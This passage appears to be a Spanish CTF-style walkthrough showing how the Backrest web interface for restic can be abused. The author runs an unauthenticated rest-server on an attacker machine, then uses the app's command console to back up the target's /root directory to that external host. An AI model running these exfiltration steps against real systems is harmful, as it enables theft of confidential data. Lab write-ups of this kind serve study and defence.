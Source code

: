 **Es una interfaz web + orquestador para la herramienta de backup restic. 
Permite crear repositorios de backup, programar backups automáticamente, y realizar mantenimientos como “prune”, “forget”, “check”. 
En la interfaz puedes explorar snapshots (versiones guardadas), navegar contenido de backups, y restaurar archivos vía web. 
Ofrece hooks previos o posteriores al backup para ejecutar comandos personalizados. 
Compatible con múltiples backend de almacenamiento (local, S3, Azure, rclone, SFTP). 
Puede configurarse en Docker, Linux, macOS, Windows.**

- GTFOBins: https://gtfobins.github.io/gtfobins/restic/

- Lancé una instancia de servidor Rest en mi máquina atacante:

```bash

rest-server --path /tmp/restic-data --listen :12345 --no-auth

```

Con el oyente activo, estaba listo para configurar el servicio Backrest del sistema de destino para conectarse a mi máquina y volcar datos confidenciales.

## Creación de un repositorio en Backrest

En la interfaz web de Backrest, navegué a la sección **Repositorios** y hice clic en **Agregar repositorio** .

- **Nombre:** `root_backup`.
- **URL del repositorio:** `/opt/backrest`
- **Contraseña:** Se puede generar pero se debe recordar o almacenar.

- Después de crearlo, el nuevo repositorio apareció en la pestaña **Repositorios** , lo que confirmó que se creó correctamente.



## Ejecución de comandos Restic para realizar copias de seguridad y restaurar

- Una vez creado el repositorio en Backrest, hice clic en él y fui a la pestaña **Ejecutar comando** .

- A partir de ahí, ejecuté los siguientes pasos en la consola de la aplicacion:

### 1. Inicializar el repositorio

```bash
-r rest:http://<YOUR-IP>:12345/<repo-name> init

```

### 2. Copia de seguridad `/root`en el destino

```bash 

-r rest:http://<YOUR-IP>:12345/<repo-name> backup /root

```
